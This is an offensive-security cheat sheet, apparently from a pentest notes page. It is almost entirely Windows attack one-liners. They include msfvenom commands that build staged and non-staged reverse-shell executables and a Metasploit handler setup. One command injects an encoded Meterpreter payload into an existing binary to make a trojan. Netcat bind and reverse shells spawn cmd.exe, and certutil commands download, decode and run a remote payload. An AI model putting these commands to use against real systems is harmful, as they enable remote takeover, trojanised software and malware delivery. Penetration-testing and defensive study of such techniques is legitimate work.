 ### Non-meterpreter

```bash
#-staged
//x86
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe

//x64
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

//netcat不可用，需使用metasploit捕获
use exploit/multi/handler
set payload windows/shell/reverse_tcp

#-non-staged
//x86
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

//x64
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

#-msf
use exploit/multi/handler
set payload windows/shell_reverse_tcp
```

### payload inject

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.101 LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## netcat

```bash
#Windows bind shell
nc.exe -nlvp 4444 -e cmd.exe

#Windows reverse shell
nc -lvp 443
nc.exe 192.168.1.101 443 -e cmd.exe

```

## Certutil

```bash
# Download a B64dll, decode it and execute it
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.dll & C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil /logfile= /LogToConsole=false /u payload.dll

# Download a B64exe, decode it and execute it.
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe & payload.exe
```
